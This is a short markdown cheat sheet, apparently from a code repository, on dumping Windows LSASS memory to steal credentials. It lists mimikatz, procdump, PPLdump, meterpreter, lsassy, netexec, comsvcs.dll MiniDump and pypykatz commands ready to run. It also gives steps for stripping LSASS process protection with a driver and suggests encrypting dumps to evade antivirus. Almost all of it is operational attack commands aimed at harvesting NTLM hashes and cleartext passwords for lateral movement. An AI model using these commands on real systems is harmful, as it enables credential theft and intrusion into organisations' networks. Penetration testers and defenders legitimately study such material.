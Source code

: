 # Extract credentials from LSASS

## Tools: CrackMapExec/Netexec , lsassy , mimikatz , meterpreter , procdump , PPLDump , GUI

#### 1) LSASS as a Protected Process

 - PPLdump64.exe LSASS.EXE|LSASS_PID lsass.dmp

 - mimikatz "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "!processprotect /process:lsass.exe:" "!-" (With mimidriver.sys)

#### 2) Procdump

 - Procdump.exe -accepteula -ma lsass.exe lsass.dmp

 - mimikatz "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"

#### 3) Meterpreter

 - load kiwi

 - creds_all

#### 4) Mimikatz

 - mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"

#### 5) lsassy

 - lsassy -d DOMAIN -u USER -p 'PASSWORD' IP

#### 6) CrackMapExec/Netexec

 - netexec smb IP_RANGE -u USER -p 'PASSWORD' -M lsassy

#### 7) rundll32.exe (comsvcs.dll)

 - tasklist | findstr lsass 

OR

 - tasklist /fi "Imagename eq lsass.exe"

 - C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump LSASS_PID C:\temp\LSASS.dmp

#### 8) Pypykatz

 - pypykatz lsa minidump lsass.dmp

### With LSASS dumped, you can recover NTLM Hashes as well as clertext credentials to do Lateral Movement via Pass-the-Hash or Pass-the-Key

# DUMP LSASS PROCESS WITH TASK MANAGER (REQUIRES GUI)

#### 1) GUI (Right-click on lsass.exe in Task Manager)

#### 2) Create dump file

#### 3) Copy dump file to mimikatz folder

## Sysinternals suite (Procdump)

#### procdump.exe -accepteula -ma lsass.exe c:\tools\mimikatz\lsass_dump

## TIP: Bypass AV, write code to encrypt

## Mimikatz

#### 1) mimikatz

#### 2) privilege::debug

#### 3) sekurlsa::logonpasswords

# BYPASS LSASS PROTECTION

#### 1) mimikatz

#### 2) privilege::debug 

#### 3) !+ (Load mimidrv driver into memory)

#### 4) !processprotect /process:lsass.exe /remove

#### 5) sekurlsa::logonpasswords
